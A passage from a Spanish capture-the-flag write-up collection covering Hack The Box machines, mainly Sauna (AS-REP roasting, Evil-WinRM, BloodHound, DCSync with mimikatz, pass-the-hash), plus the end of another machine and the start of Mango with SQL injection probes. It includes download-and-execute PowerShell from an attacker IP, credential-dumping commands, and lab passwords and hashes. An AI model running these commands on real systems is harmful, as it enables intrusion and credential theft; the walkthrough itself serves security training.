Vemos que la utilidad \textbf{psql} no existe en la maquina victima, pero como tenemos acceso a la utilidad \textbf{php}, tiramos del \texttt{php\ -\/-interactive}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{php}\NormalTok{ --interactive}

\VariableTok{$connection}\NormalTok{ = }\ExtensionTok{new}\NormalTok{ PDO(}\StringTok{'pgsql:dbname=profiles;host=localhost'}\NormalTok{, }\StringTok{'profiles'}\NormalTok{, }\StringTok{'profiles'}\NormalTok{);}
\VariableTok{$connect}\NormalTok{ = }\VariableTok{$connection}\ExtensionTok{-}\OperatorTok{>}\NormalTok{query(}\StringTok{"select * from profiles"}\NormalTok{);}
\VariableTok{$results}\NormalTok{ = }\VariableTok{$connect}\ExtensionTok{-}\OperatorTok{>}\NormalTok{fetchAll();}
\ExtensionTok{print_r}\NormalTok{(}\VariableTok{$results}\NormalTok{);}
\end{Highlighting}
\end{Shaded}

Aqui vemos la contraseña del usuario clave. Parece ser una contraseña en base64.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{'c3NoLXN0cjBuZy1wQHNz=='} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d}\KeywordTok{;} \BuiltInTok{echo}
\CommentTok{#Output}
\ExtensionTok{ssh-str0ng-p@ss}
\end{Highlighting}
\end{Shaded}

Intentamos connectarnos con ssh

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ clave@10.10.10.114}
\ExtensionTok{password}\NormalTok{: ssh-str0ng-p@ss}
\end{Highlighting}
\end{Shaded}

No nos podemos connectar pero el doble igual nos parece un poco raro. Intentamos otra vez pero con la contraseña tal cual, sin decodificacion base64.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ clave@10.10.10.114}
\ExtensionTok{password}\NormalTok{: c3NoLXN0cjBuZy1wQHNz==}
\end{Highlighting}
\end{Shaded}

Ya podemos conectar y leer la flag.

\hypertarget{privilege-escalation-32}{%
\section*{Privilege Escalation}\label{privilege-escalation-32}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-41}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-41}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /root/}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\FunctionTok{ls}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

No tenemos privilegios claramente definida pero un fichero no llama la atencion. Este fichero que es un \texttt{RemoteConnection.exe}, un fichero
windows en una maquina Linux.

Nos descargamos el fichero uzando un base64

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{base64}\NormalTok{ -w 0 }\KeywordTok{`}\ExtensionTok{RemoteConnection.exe} \KeywordTok{;} \BuiltInTok{echo}
\end{Highlighting}
\end{Shaded}
\item
  Copiamos el hash y lo colamos en la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}
\BuiltInTok{echo} \StringTok{"TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZS}
\StringTok{BydW4gaW4gRE9TIG1vZGUuDQ0KJAAAAAAAAADAty75hNZAqoTWQKqE1kCqF5jYqoXWQKrroN6qhdZAquug6qqX1kCq66DcqoDWQKrroOuqgdZAqo2u06qD1kCqhNZBqsPWQKrroO+qhd}
\StringTok{ZAquug3aqF1kCqUmljaITWQKoAAAAAAAAAAFBFAABMAQUA5hFAXQAAAAAAAAAA4AACAQsBCgAAGgAAABgAAAAAAAAzIgAAABAAAAAwAAAAAEAAABAAAAACAAAFAAEAAAAAAAUAAQAAAA}
\StringTok{AAAHAAAAAEAABDjAAAAwBAgQAAEAAAEAAAAAAQAAAQAAAAAAAAEAAAAAAAAAAAAAAAhDYAAHgAAAAAUAAAtAEAAAAAAAAAAAAAAAAAAAAAAAAAYAAApAIAAAAAAAAAAAAAAAAAAAAAAA}
\StringTok{AAAAAAAAAAAAAAAAAAAAAAgDIAAEAAAAAAAAAAAAAAAAAwAAAQAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALnRleHQAAABvGQAAABAAAAAaAAAABAAAAAAAAAAAAAAAAAAAIAAAYC}
\StringTok{5yZGF0YQAAIg4AAAAwAAAAEAAAAB4AAAAAAAAAAAAAAAAAAEAAAEAuZGF0YQAAAPQDAAAAQAAAAAIAAAAuAAAAAAAAAAAAAAAAAABAAADALnJzcmMAAAC0AQAAAFAAAAACAAAAMAAAAA}
\StringTok{AAAAAAAAAAAAAAQAAAQC5yZWxvYwAAUgMAAABgAAAABAAAADIAAAAAAAAAAAAAAAAAAEAAAEIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\StringTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\StringTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\StringTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAMcBeDJAAP8l6DBAAMzMzMxVi+xWi/}
\StringTok{HHBngyQAD/FegwQAD2RQgBdApW/xXQMEAAg8QEi8ZeXcIEAMzMzMzMzMxVi+xq/2iYKEAAZKEAAAAAUIPsJKEYQEAAM8WJRfBTVlCNRfRkowAAAAAzwIlF0MdF/AEAAACJReSIRdSNRS}
\StringTok{RQg8j/M9uNTdTHRegPAAAA6HwGAADGRfwCi0U0i00YO8EPg48AAACLTeSDy/+D+f9zAovZg8n/K8g7yw+GEAEAAIXbdGaNNBiD/v4PhwABAACLTTg7zg+D1wAAAFBWjVUkUuh6CQAAi0}
\StringTok{U0i004hfZ0OoN96BCLVdRzA41V1IP5EItNJHMDjU0kU1IDyFHohxYAAItFJIPEDIN9OBCJdTRzA41FJMYEMACLRTSLTRg7wQ+Ccf///zPbM8A7y3Yni00IuhAAAAA5VRxzA41NCIt1JDl}
\StringTok{VOHMDjXUkihQGMBQBQDtFGHLZizXQMEAAjUUIx0cUDwAAAIlfEIgfO/h0eIN/FBByCIsPUf/Wg8QEx0cUDwAAAIlfEIgfg30cEHM+i1UYQlKNRQhQV/8V3DBAAIPEDOsxhfYPhTb///+L}
\StringTok{RSSJdTSD+RBzA41FJMYAAOlX////aEwyQAD/FVAwQACLTQiJD4ldCItVGItFHIlXEIlHFIldGIldHIN96BByCYtN1FH/1oPEBIN9HBDHRegPAAAAiV3kiF3UcgmLVQhS/9aDxASDfTgQx..."}\NormalTok{ base64 -d }\OperatorTok{>}\NormalTok{ RemoteConnection.exe}
\end{Highlighting}
\end{Shaded}
\item
  Controlamos los ficheros con md5sum y transferimos el RemoteConnection.exe a una maquina Windos que tiene el Immunity Debugger con el DEP desabilitado.
\item
  Lanzando el programa en la maquina Windows, vemos que nos falta una .dll, la descargamos de internet y la ponemos en la routa \texttt{C:\textbackslash{}Windows\textbackslash{}System32}
\end{enumerate}

Ya podemos lanzar el \textbf{Immunity Debugger} como administrador

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Abrimos el RemoteConnection.exe desde el Immunity Debugger
\item
  En la ventana de arriba a la izquierda, hacemos un clic derecho \textgreater{} Search for \textgreater{} AllReferenced text strings

  vemos que hay un putty que sirbe de connection a una maquina linux desde windows.
\item
  Encontramos una string ``clave'', le damos al clic derecho \textgreater{} Follow in Disassembler

  Aqui vemos que hay un CMP que es un compare
\item
  Justo antes de esta comparativa ponemos un breakpoint para ver con que se compara exactamente
\item
  Le damos al boton play
\end{enumerate}

En la ventana de arriba a la derecha, podemos ver los datos que se utilizan para la coneccion con el SSH del usuario root.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ssh}\NormalTok{ root@10.10.10.114}
\ExtensionTok{password}\NormalTok{: Qf7j8YSV.wDNF*[7d?j}\KeywordTok{&}\ExtensionTok{eD4}\NormalTok{^}
\end{Highlighting}
\end{Shaded}

Ya estamos conectados como root y podemos leer la flag.

\hypertarget{sauna}{%
\chapter*{Sauna}\label{sauna}}
\addcontentsline{toc}{chapter}{Sauna}

\hypertarget{introduccion-49}{%
\section*{Introduccion}\label{introduccion-49}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Sauna.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=H5m72jyuy84}{\includegraphics{https://img.youtube.com/vi/H5m72jyuy84/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-49}{%
\section*{Enumeracion}\label{enumeracion-49}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-49}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-49}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-49}{%
\subsubsection*{Ping}\label{ping-49}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.175}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-49}{%
\subsubsection*{Nmap}\label{nmap-49}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.175}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.175 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p53,80,88,135,139,289,445,464,593,636,3269,5985,9389,49667,49673,49674,49677,49689,49698 10.10.10.175 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
53 & domain & Domain controller rpcclient null session &\tabularnewline
80 & http & WebFuzzin &\tabularnewline
88 & Kerberos & asproasting attack & lista de usuarios validos\tabularnewline
135 & msrpc & &\tabularnewline
139 & netbios & &\tabularnewline
389 & LDAP & Bloodhound & credenciales\tabularnewline
445 & smb & Null session &\tabularnewline
464 & kpasswd5? & &\tabularnewline
593 & ncacn\_http & &\tabularnewline
636 & tcpwrapped & &\tabularnewline
3268 & ldap & &\tabularnewline
3269 & tcpwrapped & &\tabularnewline
5985 & WinRM & evil-winrm & credenciales\tabularnewline
9389 & mc-nmf & Puertos por defecto de windows &\tabularnewline
49667 & msrpc & Puertos por defecto de windows &\tabularnewline
49673 & msrpc & Puertos por defecto de windows &\tabularnewline
49673 & msrpc & Puertos por defecto de windows &\tabularnewline
49674 & ncacn\_http & Puertos por defecto de windows &\tabularnewline
49677 & msrpc & Puertos por defecto de windows &\tabularnewline
49689 & msrpc & Puertos por defecto de windows &\tabularnewline
49698 & msrpc & Puertos por defecto de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-el-smb-8}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb-8}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.175}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.175 -N}
\ExtensionTok{smbmap}\NormalTok{ -H 10.10.10.175 -u }\StringTok{'null'}
\end{Highlighting}
\end{Shaded}

Vemos que estamos frente de una maquina Windows 10 que se llama \textbf{SAUNA} en el dominio \textbf{EGOTISTICAL-BANK.LOCAL} con un certificado firmado.
Añadimos el dominio al \texttt{/etc/hosts}.
Tambien vemos que no podemos ver los recursos compartidos a nivel de red con un null session.

\hypertarget{buscando-ususarios-con-rpcclient-y-rpcenum-3}{%
\subsection*{Buscando ususarios con rpcclient y rpcenum}\label{buscando-ususarios-con-rpcclient-y-rpcenum-3}}
\addcontentsline{toc}{subsection}{Buscando ususarios con rpcclient y rpcenum}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rpcclient}\NormalTok{ -U }\StringTok{""}\NormalTok{ 10.10.10.175 -N}

\ExtensionTok{rpcclient}\NormalTok{ $}\OperatorTok{>}\NormalTok{ enumdomusers}
\end{Highlighting}
\end{Shaded}

Podemos conectar pero no nos deja ver usuarios del directorio activo.

\hypertarget{kerbrute}{%
\subsection*{Kerbrute}\label{kerbrute}}
\addcontentsline{toc}{subsection}{Kerbrute}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/ropnop/kerbrute}
\BuiltInTok{cd}\NormalTok{ kerbrute}
\ExtensionTok{go}\NormalTok{ build -ldflags }\StringTok{"-s -w"}\NormalTok{ .}
\ExtensionTok{upx}\NormalTok{ kerbrute}
\ExtensionTok{./kerbrute}\NormalTok{ userenum --dc 10.10.10.175 -d egotistical-bank.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt}
\end{Highlighting}
\end{Shaded}

\hypertarget{analyzando-la-web-32}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-32}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-39}{%
\subsubsection*{Whatweb}\label{whatweb-39}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.175}
\end{Highlighting}
\end{Shaded}

Es un IIS 10.0

\hypertarget{checkear-la-web-16}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-16}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.175}, Vemos una pagina Egotistical Bank. Navegando por el \texttt{about.html} vemos usuarios potenciales. Vamos a recuperarlos
con bash

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.175/about.html"}
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.175/about.html"} \KeywordTok{|} \FunctionTok{grep} \StringTok{"p class=}\DataTypeTok{\textbackslash{}"}\StringTok{mt-2"}
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.175/about.html"} \KeywordTok{|} \FunctionTok{grep} \StringTok{"p class=}\DataTypeTok{\textbackslash{}"}\StringTok{mt-2"} \KeywordTok{|} \FunctionTok{grep} \StringTok{"Fergus Smith"}\NormalTok{ -A 100 }\KeywordTok{|} \ExtensionTok{html2text} \OperatorTok{>}\NormalTok{ users}
\end{Highlighting}
\end{Shaded}

Modificamos el fichero users para crear nombres de usuarios como \texttt{fsmith},\texttt{f.smith},\texttt{frank.smith}, \texttt{smithf}, \texttt{smith.frank} o otros y intentamos un asproasting attack.

\hypertarget{vulnerability-assessment-36}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-36}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{asproasting}{%
\subsection*{Asproasting}\label{asproasting}}
\addcontentsline{toc}{subsection}{Asproasting}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{GetNPUsers.py}\NormalTok{ egotistical-bank.local/ -no-pass -usersfile users}
\end{Highlighting}
\end{Shaded}

Aqui vemos un hash para el usuario \texttt{fsmith}. Lo copiamos en un fichero \texttt{fsmith\_hash} y intentamos romperlo con john.

\hypertarget{crackeando-el-hash-con-john-2}{%
\subsection*{Crackeando el hash con John}\label{crackeando-el-hash-con-john-2}}
\addcontentsline{toc}{subsection}{Crackeando el hash con John}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{john}\NormalTok{ -wordlists=/usr/share/wordlists/rockyou.txt fsmith_hash}
\end{Highlighting}
\end{Shaded}

Validamos el usuario con crackmap exec

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.175 -u }\StringTok{'fsmith'}\NormalTok{ -p }\StringTok{'Thestrokes23'}
\end{Highlighting}
\end{Shaded}

El usuario es valido pero no tenemos un Pwn3d. Checkeamos si es valido con winrm

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ winrm 10.10.10.175 -u }\StringTok{'fsmith'}\NormalTok{ -p }\StringTok{'Thestrokes23'}
\end{Highlighting}
\end{Shaded}

Ademas de ser valido, aqui no pone un Pwn3d! que significa que podemos conectarnos con Evil-WinRM.

\hypertarget{vuln-exploit-gaining-access-36}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-36}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{coneccion-con-evil-winrm}{%
\subsection*{Coneccion con EVIL-WINRM}\label{coneccion-con-evil-winrm}}
\addcontentsline{toc}{subsection}{Coneccion con EVIL-WINRM}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.175 -u }\StringTok{'fsmith'}\NormalTok{ -p }\StringTok{'Thestrokes23'}
\FunctionTok{whoami}
\ExtensionTok{ipconfig}
\BuiltInTok{type}\NormalTok{ ../Desktop/user.txt}
\end{Highlighting}
\end{Shaded}

Ya podemos leer la flag.

\hypertarget{privilege-escalation-33}{%
\section*{Privilege Escalation}\label{privilege-escalation-33}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-42}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-42}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cd}\NormalTok{ C:\textbackslash{}Users\textbackslash{}Administrator}
\FunctionTok{dir}
\NormalTok{whoami /priv}
\NormalTok{whoami /all}
\NormalTok{net user}
\end{Highlighting}
\end{Shaded}

No tenemos ningun privilegio interessante, tenemos que reconocer el systema.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un directorio para trabajar

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\NormalTok{mkdir Recon}
\FunctionTok{cd}\NormalTok{ Recon}
\end{Highlighting}
\end{Shaded}
\item
  En la maquina de atacante no descargamos el WinPeas

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe}
\FunctionTok{mv}\NormalTok{ winPEASx64.exe winPEAS.exe}
\end{Highlighting}
\end{Shaded}
\item
  Lo uploadeamos desde la maquina victima y lo lanzamos

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{upload winPEAS.}\FunctionTok{exe}
\NormalTok{./winPEAS.}\FunctionTok{exe}

\end{Highlighting}
\end{Shaded}

  Aqui hemos encontrado unas credenciales para un autologon.
\item
  Validamos el usuario desde la maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ win rm 10.10.10.175 -u }\StringTok{'svc_loanmgr'}\NormalTok{ -p }\StringTok{'Moneymakestheworldgoround!'}
\end{Highlighting}
\end{Shaded}
\item
  Nos conectamos nuevamente con \textbf{Evil-WinRM}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.275 -u }\StringTok{'svc_loanmgr'}\NormalTok{ -p }\StringTok{'Moneymakestheworldgoround!'}
\FunctionTok{whoami}
\FunctionTok{whoami}\NormalTok{ /priv}
\FunctionTok{whoami}\NormalTok{ /all}
\end{Highlighting}
\end{Shaded}

  Nuevamente no encontramos nada muy interesante. Aqui tenemos que tirar de bloodhound
\item
  En la maquina de atacante preparamos el bloodhound

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ apt install neo4j bloodhound -y}
\ExtensionTok{neo4j}\NormalTok{ console}

\ExtensionTok{bloodhoud} \OperatorTok{&>}\NormalTok{ /dev/null }\KeywordTok{&} \BuiltInTok{disown}

\FunctionTok{wget}\NormalTok{ https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1}
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Recolectamos data desde la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cd}\NormalTok{ C:\textbackslash{}Windows\textbackslash{}Temp}
\NormalTok{mkdir privesc}
\FunctionTok{cd}\NormalTok{ privesc}
\FunctionTok{IEX}\NormalTok{(}\FunctionTok{New-Object}\NormalTok{ Net.}\FunctionTok{WebClient}\NormalTok{).}\FunctionTok{downloadString}\NormalTok{('http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{17}\NormalTok{.}\FunctionTok{51}\NormalTok{/SharpHound.}\FunctionTok{ps1}\NormalTok{')}
\NormalTok{Invoke-BloodHound -CollectionMethod All}
\FunctionTok{dir}
\NormalTok{download 20210908210119_BloodHound.}\FunctionTok{zip}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Una vez el zip en la maquina de atacante, lo cargamos al BloodHound. Cargado vamos a la pestaña Analysis y
miramos por \texttt{Find\ Shortest\ Paths\ to\ Domain\ Admins} pero no vemos gran cosa. Miramos el \texttt{Find\ Principals\ with\ DCSync\ Rights}
y vemos que el usuario \textbf{svc\_loanmgr} tiene privilegios \emph{GetChanges} y \emph{GetChangesAll} sobre el dominio \textbf{EGOTISTICAL-BANK.LOCAL}.
Esto significa que podemos hacer un DCSync attack con este usuario.

\hypertarget{dcsync-attack-con-mimikatz}{%
\subsubsection*{DCSync Attack con mimikatz}\label{dcsync-attack-con-mimikatz}}
\addcontentsline{toc}{subsubsection}{DCSync Attack con mimikatz}

Buscamos el mimikatz en nuestra maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ mimikatz.exe}
\FunctionTok{cp}\NormalTok{ /usr/share/mimikatz/x64/mimikatz.exe .}
\ExtensionTok{python}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

Lo descargamos en la maquina victima y lo lanzamos para extraer el hash del usuario Administrator.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{iwr}\NormalTok{ -uri http://10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{17}\NormalTok{.}\FunctionTok{51}\NormalTok{/mimikatz.}\FunctionTok{exe}\NormalTok{ -OutFile mimikatz.}\FunctionTok{exe}
\NormalTok{C:\textbackslash{}Windows\textbackslash{}Temp\textbackslash{}privesc\textbackslash{}mimikatz.}\FunctionTok{exe}\NormalTok{ 'lsadump::dcsync /domain:egotistical-bank.}\FunctionTok{local}\NormalTok{ /user:Administrator' }\KeywordTok{exit}
\end{Highlighting}
\end{Shaded}

Ahora que hemos recuperado el Hash NTLM del usuario Administrator, podemos hacer un \textbf{pass the hash}.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.175 -u }\StringTok{'Administrator'}\NormalTok{ -H 823452073d75b9d1cf70ebdf86c7f98e}
\end{Highlighting}
\end{Shaded}

Ya somos usuario Administrator y podemos leer la flag.

\hypertarget{mango}{%
\chapter*{Mango}\label{mango}}
\addcontentsline{toc}{chapter}{Mango}

\hypertarget{introduccion-50}{%
\section*{Introduccion}\label{introduccion-50}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Mango.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=DvPh6BXdHgo}{\includegraphics{https://img.youtube.com/vi/DvPh6BXdHgo/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-50}{%
\section*{Enumeracion}\label{enumeracion-50}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-50}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-50}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-50}{%
\subsubsection*{Ping}\label{ping-50}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.162}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-50}{%
\subsubsection*{Nmap}\label{nmap-50}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.162}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.162 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80,443 10.10.10.162 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & tcp & Conneccion directa & creds\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
443 & https & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

El scaneo de nmap nos muestra 2 dominios

\begin{itemize}
\tightlist
\item
  mango.htb
\item
  staging-order.mango.htb
\end{itemize}

los añadimos al \texttt{/etc/hosts}

\hypertarget{analyzando-la-web-33}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-33}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-40}{%
\subsubsection*{Whatweb}\label{whatweb-40}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.162}
\ExtensionTok{whatweb}\NormalTok{ https://10.10.10.162}
\end{Highlighting}
\end{Shaded}

Es un Apache 2.4.29 en un Ubuntu. El puerto 80 nos muestra un 403 Forbiden pero no el 443.

\hypertarget{checkeamos-el-certificado-ssl-2}{%
\subsubsection*{Checkeamos el certificado ssl}\label{checkeamos-el-certificado-ssl-2}}
\addcontentsline{toc}{subsubsection}{Checkeamos el certificado ssl}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ s_client -connect 10.10.10.162:443}
\end{Highlighting}
\end{Shaded}

Nuevamente vemos el dominio \texttt{staging-order.mango.htb}

\hypertarget{checkear-la-web-17}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-17}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.162}, Vemos que no tenemos acceso. Si vamos con \textbf{https}, vemos una web stylo Google.
Ocure lo mismos con el dominio \texttt{mango.htb} pero con el dominio \texttt{staging-order.maquina.htb} por \textbf{http}, vemos un panel de inicio de
session.

Aqui probamos cosas uzando el burpsuite.

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{username=}\NormalTok{admin}\KeywordTok{&}\VariableTok{password=}\NormalTok{admin}\KeywordTok{&}\VariableTok{login=}\NormalTok{login}
\VariableTok{username=}\NormalTok{admin}\StringTok{'&password=admin&login=login}
\StringTok{username=admin'}\KeywordTok{&}\VariableTok{password=}\NormalTok{admin}\StringTok{'&login=login}
\StringTok{username=admin'} \ExtensionTok{or}\NormalTok{ 1=1-- -}\KeywordTok{&}\VariableTok{password=}\NormalTok{admin}\KeywordTok{&}\VariableTok{login=}\NormalTok{login}
\VariableTok{username=}\NormalTok{admin}\StringTok{' and sleep(5)-- -&password=admin&login=login}
\StringTok{username=admin'} \ExtensionTok{and}\NormalTok{ sleep(5)#}\KeywordTok{&}\VariableTok{password=}\NormalTok{admin}\KeywordTok{&}\VariableTok{login=}\NormalTok{login}
\VariableTok{username=}\NormalTok{admin}\StringTok{' or sleep(5)#&password=admin&login=login}
\StringTok{username=admin or sleep(5)#&password=admin&login=login}
\StringTok{username=admin and sleep(5)#&password=admin&login=login}
\end{Highlighting}
\end{Shaded}

No parece ser vulnerable a SQLI.

\hypertarget{vulnerability-assessment-37}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-37}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{no-sqli}{%
\subsection*{NO SQLI}\label{no-sqli}}
\addcontentsline{toc}{subsection}{NO SQLI}

